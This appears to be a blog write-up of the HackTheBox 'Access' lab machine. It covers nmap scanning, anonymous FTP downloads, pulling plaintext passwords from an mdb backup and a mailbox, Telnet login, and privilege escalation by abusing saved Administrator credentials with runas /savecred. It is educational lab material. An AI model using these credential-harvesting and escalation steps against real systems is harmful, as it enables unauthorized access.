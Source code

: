 ```yaml
---
layout: single
classes: wide
title:  "Access"
date: 2019-03-11
categories:
    - "hackthebox"
tags:
    - machines
    - windows
    - easy
excerpt:  "This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox."
---
```

This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/Access/banner.PNG)

## Unlock and Access!

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```console
htb@noone:~/Access$ nmap -v -sC -sV -oA nmap/access 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up (0.12s latency).
Not shown: 997 filtered ports

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Well, so we have a few ports open, port 21, 23, 80.

I always like to check the low-hanging fruit first. So let's get into FTP since `anonymous` login is allowed. This is a common misconfiguration for FTP logins. You never know what you might find but always is useful.

```console
htb@noone:~/Access$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:htb): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.

ftp> cd Backups
250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-23-18  08:16PM              5652480 backup.mdb
226 Transfer complete.

ftp> cd ../Engineer
l250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.

ftp> get "Access Control.zip"

ftp> get ../Backups/backup.mdb
```

After exploring the FTP shell, I found two files `backup.mdb` and `Access Control.zip`

A little Google-Fu helped me to figure out what a `mdb` file was and how I could use command-line tools in kali to view the contents.

```console
htb@noone:~/Access$ mdb-tables backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc
auth_group_permissions auth_message auth_permission - auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS
deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog
ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam
auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate
FaceTempEx FingerVeinEx TEMPLATEEx

htb@noone:~/Access$ mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer" ,"access4u@security" ,1,"08/23/18 21:13:36",26,
28,"backup_admin" ,"admin" ,1,"08/23/18 21:14:02",26,
```

Credentials found for some users. Now let's try to access the zip archive.

I tried to extract te=he archive on Linux, doesn't work. So, I downloaded it on a Windows box and tried to unzip and apparently, it needs a password. Thankfully, we have a list that we just extracted.

After some trial and error, `access4u@security` was the password for the archive. Found a `.pst` file. Again some Google-Fu and I found a way to read the file on linux.

````console
htb@noone:~/Access$ readpst 'Access Control.pst'

htb@noone:~/Access$cat 'Access Control.mbox'

From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-930452179_-_-"


----boundary-LibPST-iamunique-930452179_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-930452179_-_-"

--alt---boundary-LibPST-iamunique-930452179_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,



The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.



Regards,

John
````

Great! So we have a set of credentials. That was it from FTP, onto the next service which is Telnet on port 23.

````console
htb@noone:~/Access$ telnet -l security 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

password:4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security

```snip```
03/12/2019  12:33 PM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
08/21/2018  10:35 PM    <DIR>          Downloads
```snip```
2 File(s)          5,198 bytes
14 Dir(s)  16,667,664,384 bytes free
C:\Users\security>cd Desktop

C:\Users\security\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security\Desktop
```snip```
08/21/2018  10:37 PM                32 user.txt
```snip```

C:\Users\security\Desktop>more user.txt
f******************************8
````

Excellent! We have our user flag. Onto root.

In the same telnet session, I tried to check ways to privesc.

```console
C:\>cmdkey /list

Currently stored credentials:

Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator

C:\>C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"

C:\>more C:\Users\security\Downloads\root.txt
6******************************f
```

Voila! We have the root flag as well and we can use this to gain out points on HackTheBox.

The privilege escalation on this box wasn't that complicated if you know what you are doing.

Happy Hacking! Cheers!
